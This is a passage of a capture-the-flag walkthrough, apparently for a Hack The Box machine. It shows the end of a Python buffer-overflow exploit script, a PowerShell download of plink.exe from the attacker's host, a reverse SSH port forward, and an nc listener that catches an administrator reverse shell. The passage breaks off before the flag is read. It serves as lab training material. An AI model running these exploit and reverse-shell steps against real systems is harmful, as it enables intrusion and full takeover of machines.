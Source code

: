       overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

      buf = padding1 + EIP + NOPS + payload + overrun

      try:
      	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      	s.connect((target,8888))
      	s.send(buf)
      except Exception as e:
      	print(sys.exc_value)


2. The script needs to be executed on the local box, as the victim doesn't have python installed. Create a reverse port forward using plink.

   Upload plink:
     PS C:\Users\shaun\Downloads> invoke-webrequest -uri "http://10.10.14.4:8877/plink.exe" -outfile "C:\Users\shaun\Downloads\plink.exe"

   Setup the reverse port forward using the following syntax:
    ./plink.exe <ATTACKER-IP> <ATTACKER-PORT>:127.0.0.1:<LOCAL-SERVICE-PORT>

    PS C:\Users\shaun\Downloads> ./plink.exe 10.10.14.4 -R 8888:127.0.0.1:8888
      ./plink.exe 10.10.14.4 -R 8888:127.0.0.1:8888
      The server's host key is not cached in the registry. You
      have no guarantee that the server is the computer you
      think it is.
      The server's ssh-ed25519 key fingerprint is:
      ssh-ed25519 255 6a:d5:96:27:f9:c4:a0:c4:49:86:6d:2d:0e:76:7f:81
      If you trust this host, enter "y" to add the key to
      PuTTY's cache and carry on connecting.
      If you want to carry on connecting just once, without
      adding the key to the cache, enter "n".
      If you do not trust this host, press Return to abandon the
      connection.
      Store key in cache? (y/n) y
      login as: p3
      p3@10.10.14.4's password: ********


3. Setup a new listener to capture the reverse shell from the exploit, and then execute the script. Grab root.txt

    root@nidus:/git/htb/buff# python root-exploit.py
    root@nidus:~# rlwrap nc -lvnp 4499
      listening on [any] 4499 ...
      connect to [10.10.14.4] from (UNKNOWN) [10.10.10.198] 49709
      Microsoft Windows [Version 10.0.17134.1610]
      (c) 2018 Microsoft Corporation. All rights reserved.

      C:\Windows\system32>whoami
      whoami
      buff\administrator

      C:\Windows\system32>cd C:\Users\Administrator\Desktop
      cd C:\Users\Administrator\Desktop
